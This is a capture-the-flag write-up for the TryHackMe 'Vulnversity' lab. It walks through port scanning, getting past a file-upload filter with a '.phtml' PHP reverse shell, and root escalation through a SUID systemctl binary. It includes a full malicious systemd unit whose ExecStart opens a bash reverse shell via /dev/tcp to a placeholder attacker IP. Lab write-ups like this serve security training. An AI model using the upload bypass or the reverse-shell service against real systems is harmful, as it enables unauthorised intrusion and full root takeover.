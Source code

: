 # CTF - Vulnversity / Tryhackme

1. Recon

Nmap result :

PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 63 vsftpd 3.0.3
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  syn-ack ttl 63 Squid http proxy 3.5.12
3333/tcp open  http        syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))

First, on port 21, we can see an ftp server running.
Trying to connect to it anonymously failed.

On port, 22, an ssh server is running but we don't have any creds.

port 139/445 run a samba server, using the enum4linux script, we can discover a new user :
-> S-1-22-1-1000 Unix User\bill (Local User)



2. Web

The main website is running on port 3333, it's a replication of a university website.
Using gobuster, we can find thoses directories :

/images               (Status: 301) [Size: 318] [--> http://10.10.81.62:3333/images/]
/css                  (Status: 301) [Size: 315] [--> http://10.10.81.62:3333/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.81.62:3333/js/]
/fonts                (Status: 301) [Size: 317] [--> http://10.10.81.62:3333/fonts/]
/internal             (Status: 301) [Size: 320] [--> http://10.10.81.62:3333/internal/]
/server-status        (Status: 403) [Size: 301]

/internal looks interresting.

On this page, we can upload a file.
Trying using a .php, .jpg file will throw an error. "Extension not allowed"

Using burp suite, we can try to find a bypass to upload a php reverse shell on the website.
When trying somes extensions, we can find that ".phtml" can go throught the filter.
In the /internal directory, gobuster find the /uploads directory where we can trigger our php script.

With a listener in place, we can catch our reverse and connect in the www-data user.



3. Exploration

Navigating on the system, we can access the home directory of the bill user. Where we can find the user.txt

It's now time to search for a privesc. After investigating crontab, sudo -l, ... we can find interesting SUID files

-> find / -perm -u=s 2> /dev/null

/usr/lib/squid/pinger
/bin/systemctl

Googling /bin/systemctl suid, we can find on GTFObins that systemctl can be use to gain root access.
We will create a new service, which will execute a reverse shell, and using the systemctl with SUID bit, we will start the service, which
will send us a root shell.



4. Privesc

We can use the method A1vinSmith : https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740
First, we create our evil service

In a file called evil.service : 

[Unit]
Description=Getting root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/YourIP/YourPort 0>&1'

[Install]
WantedBy=multi-user.target



The ExecStart parameter is where you can set your command.
Setup a listener then enable the servic
If the path to systemctl is different, modify it.
-> /bin/systemctl enable /path/to/your/service/evil.service

-> /bin/systemctl start evil



5. #Root

Now we have root, we can access the /root/root.txt and get the flag.





